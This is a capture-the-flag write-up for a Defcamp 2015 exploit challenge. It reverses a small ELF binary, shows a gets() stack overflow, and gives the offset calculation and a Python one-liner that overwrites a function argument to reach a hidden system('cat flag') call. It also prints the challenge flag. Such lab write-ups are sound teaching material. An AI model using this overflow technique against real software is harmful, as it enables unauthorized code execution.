


# Defcamp CTF Qualifications 2015: password-encrypting-tool-100

**Category:** Exploit
**Points:**100
**Solves:**
**Description:**

>Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

> Hack the target when you've figured out with this [file](e100).

>Target: dctf@10.13.37.6:22


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>

### Meta

Vulnerability:

* Stack Overflow via `gets`
* Call hidden function

We are given a stripped 32bit ELF for i386 Linux:

```bash
$ file e100
e100: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```

Running it, we can provide a password as input, which then is encrypted and returned:

```bash
$ ./e100
Enter password: hello
Your new secure password is: ?????
```

Lets open it in `radare2` and look at the functions available:

```bash
[0x08048400]> aa
[0x08048400]> afl | sort -k1 | column -t
0x08048390  16   2  sym.imp.printf
0x080483a0  16   2  sym.imp.gets
0x080483b0  16   2  sym.imp.__stack_chk_fail
0x080483c0  16   2  sym.imp.system
0x080483e0  16   2  sym.imp.strlen
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  34   1  entry0
0x080484fd  167  9  fcn.080484fd
0x080485a4  28   1  main
```

Ok looks like we have some interesting imported functions that have been called: `system`, `gets` and `printf`.

Our binary itself consists of two functions: `fcn.080484fd` and `main`.

Decompiling `main`:



Decompiling `fcn.080484fd`:



Main just does `fcn.080484fd(0xdadadada);`, while `fcn.080484fd` does following interesting things:

* If first argument of `fcn.080484fd` is `0xbadb0169`, it calls `system("cat flag");`
* Takes input and applies some simple `xor` encryption with some tweaks on it (see `0x08048546` to `0x08048574`). See [this writeup](https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md) for a complete source generated by Hopper.
* Calls `__stack_chk_fail()` if stack smashing has been detected

Since `gets` is called on our input, we assume that we are dealing with a simple Stack Overflow situation.

And indeed, we can smash the stack:

```bash
$ python -c 'print "A"*0x100' > in
gdb-peda$ r < in
[...]
Stopped reason: SIGSEGV
0xf7e43542 in getenv () from /lib32/libc.so.6
gdb-peda$ bt
#0  0xf7e43542 in getenv () from /lib32/libc.so.6
#1  0xf7e7918b in ?? () from /lib32/libc.so.6
#2  0xf7f0a3cb in __fortify_fail () from /lib32/libc.so.6
#3  0xf7f0a35a in __stack_chk_fail () from /lib32/libc.so.6
#4  0x0804859e in ?? ()
#5  0x41414141 in ?? ()
[...]
```

We cannot provide any shellcode to be executed, since `NX` is enabled and, adding to that, a stack smashing checking function is called right before `ret`.

Since the first argument to `fcn.080484fd` is hardcoded and always not equal to `0xbadb0169`, but `0xdadadada`, we have to smash the stack and set the value of the first argument to `0xbadb0169` to be able to execute `system("cat flag");`.

To do this, we have to find the correct offset, which can be calculated in a simple manner:

* Buffer for `gets` starts at `ebp-0x2c` (`ebp-local_3`)
* First argument for `fcn.080484fd` is at `ebp+0x8` (`ebp+arg_2`). On `ebp+0x4` we have our `EIP`/`rip`.
* Adding both together, we get `0x2c`+`0x8` = `0x34`.

Running our exploit:

```bash
$ python -c 'print "A"*0x34+"\x69\x01\xdb\xba"' | ./e100
DCTF{3671bacdb5ea5bc26982df7da6de196e}
*** stack smashing detected ***: ./e100 terminated
Enter password: Aborted (core dumped)
```

We can see the flag, `DCTF{3671bacdb5ea5bc26982df7da6de196e}`.

## Other write-ups and resources

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>
* [Japanese](http://ctf.publog.jp/archives/cat_1182010.html)
